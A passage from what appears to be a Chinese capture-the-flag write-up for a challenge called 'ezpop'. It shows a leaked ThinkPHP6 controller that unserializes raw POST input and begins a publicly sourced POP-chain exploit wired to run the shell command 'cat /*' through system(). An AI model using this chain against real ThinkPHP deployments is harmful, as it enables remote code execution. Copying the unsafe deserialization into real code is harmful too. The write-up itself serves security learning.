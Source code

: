 #  初赛

## ezpop

`www.zip`源码泄露，`/www/app/controller/Index.php`是关键路由

```php
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V' . \think\facade\App::version() . '<br/><span style="font-size:30px;">14载初心不改 - 你值得信赖的PHP框架</span></p><span style="font-size:25px;">[ V6.0 版本由 <a href="https://www.yisu.com/" target="yisu">亿速云</a> 独家赞助发布 ]</span></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="ee9b1aa918103c4fc"></think>';
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
    public function test()
    {
   	unserialize($_POST['a']);
    }
    
}
```

是通过一个参数`a`进行反序列化

然后我们搜网上的`POC`:https://www.freebuf.com/vuls/321546.html

```PHP
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['cat /*']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
```